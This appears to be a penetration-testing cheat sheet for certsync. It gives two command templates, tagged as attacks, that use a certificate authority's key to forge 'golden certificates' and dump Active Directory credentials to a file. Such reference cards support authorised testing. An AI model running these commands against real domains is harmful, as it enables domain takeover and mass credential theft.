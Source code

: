 # certsync

% adcs, certificate, pki, windows, Active directory, template, godlen certificate

## certsync - Golden certificate with local CA cert
#plateform/linux #target/remote #cat/ATTACK
```
certsync -ca-pfx <ca_file> -u <admin> -p '<admin_password>' -ca-ip <ip_ca> -d <domain> -ns <ip_dns> -dc-ip <dc_ip> -outputfile <outputfile>
```

## certsync - Golden certificate, dump ca cert
#plateform/linux #target/remote #cat/ATTACK
```
certsync -u <admin> -p '<admin_password>' -ca-ip <ip_ca> -d <domain> -ns <ip_dns> -dc-ip <dc_ip> -outputfile <outputfile>
```
